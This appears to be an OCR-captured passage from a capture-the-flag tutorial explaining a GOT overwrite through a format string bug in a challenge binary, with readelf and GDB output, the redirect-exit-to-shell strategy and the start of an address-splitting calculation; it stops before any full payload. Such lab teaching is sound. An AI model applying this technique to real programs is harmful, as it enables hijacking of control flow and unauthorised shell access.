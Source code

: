 OFFSET   TYPE              VALUE
08049804 R_386_JUMP_SLOT   printf
0804980c R_386_JUMP_SLOT   fgets
08049810 R_386_JUMP_SLOT   system
0804981c R_386_JUMP_SLOT   exit    ← Target this!
Method 2: readelf
bashreadelf -r ./level5

Relocation section '.rel.plt':
 Offset     Info    Type            Sym.Value  Sym. Name
0804981c  00000407 R_386_JUMP_SLOT   00000000   exit
Method 3: GDB
bashgdb ./level5
(gdb) disas exit
# Shows PLT stub

(gdb) x/wx 0x0804981c
0x804981c <exit@got.plt>:    0xb7e5ebe0
Learn More:

📖 Finding GOT Entries

3. GOT Overwrite Attack
Strategy:

Find GOT entry of a function that will be called
Overwrite it with address of target function
When program calls original function, it jumps to our target

Example:
Program flow:
main() → ... → exit() → program ends

After GOT overwrite:
main() → ... → exit@GOT → actually jumps to o() → shell!
Why it works:

GOT is writable (by design)
Format string gives us write primitive
Can overwrite any GOT entry

Learn More:

📖 GOT Overwrite Technique
🛠️ Practice: pwnable.tw - Formatted String

4. Calculating GOT Overwrite
Goal: Write address 0x080484a4 to GOT entry at 0x0804981c
Split into shorts:
pythontarget_addr = 0x080484a4
got_entry = 0x0804981c

# Split target into 2 shorts (16-bit values)
low_short = target_addr & 0xFFFF          # 0x84a4 = 33956
high_short = (target_addr >> 16) & 0xFFFF # 0x0804 = 2052
